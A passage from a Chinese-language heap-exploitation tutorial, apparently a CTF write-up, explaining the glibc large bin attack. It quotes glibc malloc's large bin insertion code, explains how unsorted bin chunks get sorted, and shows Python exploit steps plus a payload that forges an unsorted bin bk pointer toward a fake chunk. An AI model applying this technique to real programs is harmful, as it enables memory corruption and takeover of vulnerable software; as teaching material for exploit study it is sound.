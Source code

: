  ```c
           else// 插入
           {
             //解链操作，nextsize只有largebin才有
             victim->fd_nextsize = fwd;
             victim->bk_nextsize = fwd->bk_nextsize;
             fwd->bk_nextsize = victim;
             victim->bk_nextsize->fd_nextsize = victim;//fwd->bk_nextsize->fd_nextsize=victim
            }
           bck = fwd->bk;
       }
    }
  else
      victim->fd_nextsize = victim->bk_nextsize = victim;
 }
  mark_bin (av, victim_index);
 //解链操作2,fd,bk
  victim->bk = bck;
  victim->fd = fwd;
  fwd->bk = victim;
  bck->fd = victim;
 //fwd->bk->fd=victim
 ```

​    大概意思就是说我们申请堆块时，glibc会从unsorted bin末尾开始遍历，倘若遍历到不符合我们的要求大小，那么系统会做sorted——重新把这个free chunk放入small bin或large bin中。

 ```python
 free(2)     #unsortedbin-> chunk2 -> chunk5(0x4e0)which size is largebin FIFO
 add(0x4e8)  #put chunk5(0x4e0) to largebin
 free(2)     #put chunk2 to unsortedbin
 ```

​    这个过程就是，在unsorted bin中存放着两个大chunk，第一个0x4e0，第二个0x4f0。当我申请一个0x4e8的chunk时，首先找到0x4e0的chunk，太小了不符合调件，于是将它拿出unsorted bin，放入large bin。在放入large bin时就会进行两步解链操作，两个解链操作的最后一步是关键。

 ![image-20211226162620445](/assets/wgpsec/images/heap/image-20211226162620445.png)

​    可以看到从unsorted bin->bk开始遍历，第一个的size < nb因此就会放入large bin，继续往前遍历，找到0x4f0的chunk，刚好满足size==nb，因此将其分配出来。最后在free(2)将刚刚分配的chunk2再放回unsorted bin，进行第二次利用。

 ![image-20211226162626453](/assets/wgpsec/images/heap/image-20211226162626453.png)

#### 3.large bin attack

​    接下来伪造unsorted bin的bk

 ```python
 content_addr = 0xabcd0100
 fake_chunk = content_addr - 0x20
 
 payload = p64(0)*2 + p64(0) + p64(0x4f1) # size
 payload += p64(0) + p64(fake_chunk)      # bk
 edit(7, payload)
 ```
